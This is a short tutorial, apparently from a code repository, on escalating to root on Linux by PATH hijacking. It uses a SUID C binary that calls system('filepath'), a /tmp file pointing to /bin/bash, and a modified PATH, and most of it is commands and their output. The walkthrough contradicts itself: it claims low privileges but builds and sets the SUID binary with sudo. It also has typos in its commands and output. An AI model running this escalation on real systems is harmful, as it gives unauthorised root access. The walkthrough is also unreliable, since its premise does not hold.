 # Unix Shell

## 01 - Detect

```
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We will compile a shell to further elevate to root privileges from the compromised Linux machine with least privileges.

```
$ cat path.c
#include <unistd.h>
void main() {
    setuid(0);
    setgid(0);
    system("filepath");
}
$ sudo gcc -o path path.c -w
$ sudo chmod u+s path
$ ls -lh
-rwsr-xr-x 1 root root 16K Jan 20 19:04 path
-rw-r--r-- 1 user user  81 Jan 20 18:43 path.c

$ find / writable 2>/dev/null | cut -d "/" -f 2 | sort -u

bin
boot
.cache
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

Unfortunately nothing is writable that starts with usr since most of them are root

```
$ find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
usr/lib
```

Let's try looking for other world writable directories

```
$ find / -writable 2>/dev/null | cut -d "/" -f 1,2,3 | grep -v proc | sort -u
/dev/block
/dev/cdrom
/dev/char
/dev/disk
/dev/dri
/dev/fb0
/dev/fd
/dev/full
/dev/fuse
/dev/log
/dev/mqueue
/dev/net
/dev/null
/dev/ptmx
/dev/pts
/dev/random
/dev/shm
/dev/snd
/dev/sr0
/dev/stderr
/dev/stdin
/dev/stdout
/dev/tty
/dev/ttyS0
/dev/ttyS1
/dev/ttyS2
/dev/ttyS3
/dev/urandom
/dev/vfio
/dev/zero
/etc/systemd
/home/user
/run/dbus
/run/lock
/run/screen
/run/shm
/run/systemd
/run/udev
/run/user
/sys/fs
/sys/kernel
/tmp
/usr/lib
/var/lib
/var/lock
/var/spool
/var/tmp
```

Looks the `/home/user`, `/tmp`, and `/dev/shm` directory are the best locations to insert our shell to exploit the **PATH**. We will copy the `/bin/bash` to rename it as `filepath`

## 02 - Exploit

```
$ export PATH=/tmp:$PATH
$ echo $PATH
/mp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ echo "/bin/bash" > /tmp/filepath
$ ls -lh /tmp/filepath
-rw-r--r-- 1 user user 10 Jan 20 19:41 /tmp/filepath
$ chmod 777 /tmp/filepath
```

Now we will execute the compiled binary to exploit the PATH variable and get root privileges

```
$ ./path
# whoami
root
```

## 03 - Cleanup

```
# exit
$ rm path path.c /tmp/filepath
```